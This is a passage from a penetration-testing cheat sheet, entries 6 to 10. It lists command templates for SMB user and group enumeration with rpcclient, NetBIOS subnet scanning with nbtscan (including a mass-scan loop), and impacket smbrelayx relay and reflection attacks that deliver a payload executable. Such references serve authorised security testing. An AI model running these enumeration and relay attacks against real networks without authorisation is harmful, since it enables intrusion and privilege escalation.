 https://blogs.technet.microsoft.com/ash/2014/11/10/dont-set-or-save-passwords-using-group-policy-preferences/
__________
### 6. RPCClient smb show users and groups
```
rpcclient -U '[DOMAIN]\[USER]'%'[PASS]' '[TARGET]' -c enumdomusers,enumdomgroups
```
**- linux,enumeration,user information,smb**
#### References:

https://www.samba.org/samba/docs/man/manpages/rpcclient.1.html
__________
### 7. NBTScan
```
nbtscan -v -s : 192.168.0.0/24 >> nbtscan-[SUBNET].txt
```
**- linux,scanning,smb**
#### References:

https://yg.ht
http://unixwiz.net/tools/nbtscan.html
__________
### 8. NBTScan en masse
```
for a in {0..254}; do nbtscan -v -s : 192.168.$a.0/24 >> nbtscan-192.168.$a.txt; done
```
**- linux,loop,scanning,smb**
#### References:

https://yg.ht
http://unixwiz.net/tools/nbtscan.html
__________
### 9. smbrelay targeted
```
smbrelayx.py -h [TARGETIP] -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 10. smbrelay reflection : note read into http -> smb refelction
```
smbrelayx.py -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:
